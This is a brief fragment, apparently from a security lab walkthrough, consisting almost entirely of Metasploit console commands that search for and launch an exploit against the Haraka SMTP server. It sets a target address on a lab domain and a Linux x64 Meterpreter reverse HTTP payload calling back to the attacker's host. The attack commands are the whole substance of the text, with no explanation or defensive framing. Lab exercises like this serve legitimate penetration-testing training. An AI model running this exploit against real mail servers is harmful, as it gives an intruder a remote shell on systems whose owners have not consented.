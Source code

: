 - __`search type:exploit name:haraka`__
```
use exploit/Linux/smtp/haraka
set SRVPORT 9898
set email_to root@attackdefense.test
set payload Linux/x64/meterpreter_reverse_http
set LHOST <yourip>
exploit
```
